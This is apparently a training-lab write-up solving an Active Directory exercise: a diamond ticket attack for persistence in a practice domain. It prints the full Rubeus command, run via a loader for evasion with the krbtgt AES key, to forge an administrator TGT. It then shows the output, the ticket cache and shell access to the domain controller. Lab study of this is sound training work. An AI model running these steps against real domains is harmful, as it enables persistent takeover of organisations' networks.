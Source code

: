 # Learning Objective 10 (Diamond Ticket Attack for Persistence)

## Tasks

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run **from an elevated shell ('run as administrator')**. We take the usual OPSEC care of using Loader.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

In order to perform the diamond ticket attack we need to use the `krbtgt` aes256 key.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!🎟️
```

Access the DC using winrs from the new spawned process!

![New spawned terminal process](./assets/screenshots/learning_objective_10_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```
🚩

---
---
